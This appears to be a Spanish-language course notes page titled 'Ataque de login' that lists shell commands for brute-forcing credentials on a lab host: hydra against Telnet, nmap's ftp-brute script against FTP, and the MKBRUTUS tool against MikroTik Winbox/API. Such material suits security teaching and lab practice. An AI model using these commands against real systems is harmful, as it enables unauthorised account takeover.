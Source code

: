 ```yaml
---
theme: "just-the-docs"
title: "Ataque de login"
layout: default
nav_order: 7
parent: "ARRAY DIINF 2024"
---
```

```bash
cd /home/lesand/Desktop/tools/diccionarios
echo "admin" > usuarios.txt
```
# Ataque TELNET
## NMAP
```bash
hydra -L usuarios.txt -P diccionario.txt telnet://192.168.85.134
```
# Ataque FTP
```bash
nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=diccionario.txt 192.168.85.134
```
```bash
ls /usr/share/nmap/scripts/
```
# Winbox/API Mikrotik
```bash
cd /home/lesand/Desktop/tools
git clone https://github.com/mkbrutusproject/MKBRUTUS.git
cd MKBRUTUS
python3 mkbrutus.py -t 192.168.85.134 -d /home/lesand/Desktop/tools/diccionarios/diccionario.txt
```
